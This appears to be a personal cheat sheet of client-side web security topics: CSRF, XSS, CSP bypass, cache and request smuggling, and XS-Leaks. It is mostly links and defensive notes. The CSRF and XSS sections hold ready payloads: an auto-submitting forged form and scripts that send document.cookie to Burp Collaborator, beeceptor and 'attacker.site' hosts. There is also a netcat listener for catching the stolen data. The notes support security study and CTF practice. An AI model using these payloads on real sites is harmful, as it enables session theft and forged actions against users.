



## Doc - Client

- https://developer.mozilla.org/en-US/doc
- https://portswigger.net/web-security/
- https://seal9055.com/blog/browser/browser_architecture
- https://book.jorianwoltjer.com/languages/javascript#filter-bypass
- https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning

### Browser fundamentals

#### Same Origin Policy

- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies

#### Cross Origin Resource Sharing

CORS governs when a script can read a response, not when a cookie is attached to the request. Even if CORS blocks JS from reading the response, CSRF can still occur if cookies are sent.

- https://portswigger.net/web-security/cors
- https://www.devsecurely.com/blog/2024/06/cors-the-ultimate-guide

Examples:

- **Top‑level navigation**: changes the URL in the browser bar; triggers cookies even under `SameSite=Lax`
- **Subresource request**: ``, `<iframe>`, CSS, JS — cookies *not* sent under `SameSite=Lax`
- **Scripted requests/fetch**: also doesn’t trigger same‑site cookie delivery


#### HTML fundamentals

- https://www.w3schools.com/html/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Overview

### DOM - notions


- `document.getElementById`
- `document.innerHTML`
- `Hash (#)`: https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
- `getElements` https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname
- `Protection/Sanitazation`:
	- https://github.com/cure53/DOMPurify


### Fetch API

`fetch()`/`XHR` are subject to SOP & CORS — they do not produce top‑level navigations and thus usually don’t send SameSite=Lax cookies.

- https://byby.dev/js-fetch-cors-credentials
- https://www.tutorialspoint.com/ajax/fetch_api_credentials.htm
- https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch#creating_a_request_object


### Cheatsheets

- https://github.com/Edr4/XSS-Bypass-Filters
- https://github.com/xanhacks/OffensiveWeb
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet


## Outils

- [Beeceptor](https://beeceptor.com/)
- https://js.retn0.kr/
- https://obf-io.deobfuscate.io/
- https://deobfuscate.relative.im/





## CSRF

- https://portswigger.net/web-security/csrf/xss-vs-csrf
- https://www.acceis.fr/csrf-get-samesite-attaque-concrete/
- https://www.yeswehack.com/learn-bug-bounty/ultimate-guide-csrf-vulnerabilities

### GET

- https://portswigger.net/web-security/csrf/bypassing-token-validation
- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses


```html
<meta http-equiv="refresh" content="0; url=http://www.example.org/api/setusername" />
```

### POST

- https://n-pn.fr/t/1277-tout-sur-les-attack-csrf---cross-site-request-forgery
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions


```html
<form id="autosubmit" action="/api/setusername"  method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>

<-- testing if the payload is read by the bot -->
/logoo.jpg>
```

`Protection:`

- https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
- https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- https://voltron81.invicti.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery

```
Header Set-Cookie
SameSite:
- Strict: strongest CSRF protection
- Lax: vulnerable to top-level GET navigations
- None + Secure: allows all cross-site requests
```

### WebSocket abuse

- https://book.hacktricks.wiki/en/pentesting-web/websocket-attacks.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Web%20Sockets

`Protection`: Use `wss://`


## XSS

 - https://excess-xss.com/
 - https://liveoverflow.com/do-not-use-alert-1-in-xss/
 - https://portswigger.net/web-security/cross-site-scripting
 - https://github.com/s0md3v/AwesomeXSS/
 - https://learn-cyber.net/article/Self-XSS-Attacks
 - https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```js
<script>fetch('https://<SESSION>.burpcollaborator.net/?'+document.cookie);</script>
```
  
### Stored/Persistent XSS

- https://excess-xss.com/
- https://beta.hackndo.com/attaque-xss/

### Reflected XSS

- https://excess-xss.com/
- https://www.urlencoder.org/
- https://learn-cyber.net/article/Reflected-XSS-Attacks

```html
https://example.org?parameter=<script>fetch('https://night.free.beeceptor.com/?'.concat(document.cookie));</script>
```

```html
<-- reflection in ?parameter, reporting url to the bot -->
https://example.org?parameter=

<-- using urlencode -->
https%3A%2F%2Fexample.org%3Fparameter%3D%3Cimg%20src%3Dx%20onerror%3D%22document.location%3D%60%2F%2Fnight.free.beeceptor.com%2F%3Fc%3D%24%7Bbtoa%28document.cookie%29%7D%60%22%3E%0A
```

#### CSRF to XSS

```
<meta http-equiv="refresh" content="0; url=http://example.org/action?msg=<script>fetch('http://attacker.site/?c='.concat(document.cookie))</script>" />
```

### Dom based XSS

- https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#dom-based-xss




### Filters bypass

 - https://javascript.info/script-async-defer
 - https://github.com/payloadbox/xss-payload-list
 - https://github.com/cure53/HTTPLeaks/tree/main
 - https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md

`Protection`: HTML-encode les entrées utilisateurs, CSP:
  - `htmlspecialchars`: https://www.php.net/manual/fr/function.htmlspecialchars.php
  - https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
  
#### CSP

- https://csplite.com/csp320/
- https://content-security-policy.com/
- https://csp-evaluator.withgoogle.com/
- https://www.cobalt.io/blog/csp-and-bypasses
- https://chromestatus.com/feature/5735596811091968
- https://book.hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/4%20-%20CSP%20Bypass.md

rappel

```js
alert(window["docu"+"ment"]["title"])
```

Analyser les tags CSP (conserver journal,désactiver cache)



```bash
# Requête complète, headers victime
nc -nlvp 4444 

# Serveurs (ngrok tcp)
python -m http.server 4444
python -m pyftpdlib -D
```


## Reverse Tabnabbing

- https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing


## Relative Path Overwrite

- https://thespanner.co.uk/2014/03/21/rpo
- https://github.com/Creased/relative-path-overwrite
- https://book.hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html?highlight=relative%20path%20overwrite#bypass-via-rpo-relative-path-overwrite


## Client Side Path Traversal 

- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-xss
- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-csrf


## Dom Clobbering

- https://www.offensiveweb.com/docs/client-side/dom-clobbering/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/DOM%20Clobbering


## Browser Cache

- https://book.jorianwoltjer.com/web/client-side/caching
- https://www.offensiveweb.com/docs/client-side/browser-cache/


### HTTP (Request|Response) (Splitting|Smuggling)

- https://franso.re/fr/blog/http_rs_pour_les_nuls
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling
- https://book.jorianwoltjer.com/web/server-side/http-request-smuggling#set-headers-on-victim-request-to-get-xss


## CSS Exfiltration

- https://github.com/hackvertor/blind-css-exfiltration
- https://book.jorianwoltjer.com/web/client-side/css-injection


## XS -Leaks

- https://xsleaks.dev/
- https://book.jorianwoltjer.com/web/client-side/xs-leaks


## Same Origin Method Execution + SelfXSS (+DQL injection)

- https://mushroom.cat/ctf/smsv2-cyctf25-web
- https://www.offensiveweb.com/docs/client-side/same-origin-method-execution/
